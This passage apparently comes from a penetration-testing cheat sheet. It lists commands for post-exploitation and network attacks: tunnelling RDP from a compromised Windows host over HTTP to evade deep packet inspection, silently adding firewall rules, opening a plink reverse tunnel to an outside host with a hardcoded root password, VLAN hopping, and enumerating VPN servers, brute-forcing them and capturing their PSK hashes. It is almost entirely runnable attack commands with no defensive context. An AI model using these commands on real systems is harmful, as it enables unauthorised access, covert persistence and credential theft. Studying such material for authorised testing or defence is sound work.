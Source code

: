         `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

*   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

    *   Windows machine add required firewall rules without prompting the user

    *   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    *   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    *   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    *   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    *   Start the http tunnel client

        `httptunnel_client.exe`

    *   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

*   VLAN Hopping

    *   <div class="highlight highlight-source-shell">

        <pre>git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh</pre>

        </div>

*   VPN Hacking

    *   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    *   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    *   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`

        `git clone https://github.com/SpiderLabs/ikeforce.git`

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`

        Bruteforce IKE VPN using IKEForce:

        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1` Use ike-scan to capture the PSK hash:

        <div class="highlight highlight-source-shell">

        <pre>ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example<span class="pl-cce">\_</span>group -P hash-file.txt TARGET-IP</pre>
